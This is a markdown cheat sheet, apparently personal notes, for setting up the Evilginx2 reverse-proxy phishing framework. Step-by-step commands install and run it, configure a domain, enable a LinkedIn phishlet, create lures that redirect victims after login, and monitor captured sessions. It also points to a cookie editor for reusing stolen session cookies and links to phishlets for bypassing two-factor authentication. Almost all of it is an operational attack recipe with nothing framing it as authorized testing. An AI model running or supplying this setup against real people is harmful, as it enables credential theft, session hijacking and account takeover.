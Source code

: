 # Evilginx2
#phishing
https://github.com/kgretzky/evilginx2
https://en.kali.tools/?p=963

## Setup
Install golang
`sudo apt install golang`

Create tmux session
`tmux` to create new
`tmux ls` to list all session
`tmux attach-session -t 0` attach session `0`

Preparing evilginx2 and running it
```bash
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make

sudo ./bin/evilginx -p ./phishlets/
```

Setup domain and IP, to see current setting `config`
```bash
config domain www.domain.com
config ip 10.0.0.1
```

Choose phishlets
`phishlets enable linkedin`

Create lures and redirect user to certain domain after successful login
```bash
lures create linkedin
lures edit 0 redirect_url https://www.google.com
lures get-url 0
```

Hiding/unhide phislet for valid lure URL `phishlet hide/unhide <phishlet>`

Monitor session `sessions`

Go to session 0 `sessions 9`

Cookie editor on chrome
https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en

## Docker Version
Build image `docker build . -t evilginx2`

Run container `docker run -it -p 53:53/udp -p 80:80 -p 443:443 evilginx2`

Phishlets are loaded within the container at /app/phishlets, which can be mounted as a volume for configuration.

## Create Phishlets
Explanation: 
https://github.com/kgretzky/evilginx2/wiki/Phishlet-File-Format-(2.3.0)
https://mrturvey.co.uk/aiovg_videos/creating-custom-phishlets-for-evilginx2-2fa-bypass/
Find other phishlets here https://github.com/hash3liZer/phishlets

Phishlets located in `~/go/src/github.com/kgretzky/evilginx2/phishlets`



